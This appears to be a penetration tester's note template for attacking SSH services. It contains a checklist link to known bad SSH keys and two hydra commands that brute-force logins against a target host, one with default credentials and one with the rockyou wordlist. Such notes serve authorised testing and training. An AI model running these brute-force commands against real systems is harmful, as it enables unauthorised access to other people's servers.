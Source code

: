 <% tp.file.rename("1_SSH_")%>

- [ ] Bad keys? (https://github.com/rapid7/ssh-badkeys)

## Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s $hport
```

Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt ssh://$hip$ -V -t 4 -I -s 22
```


# Findings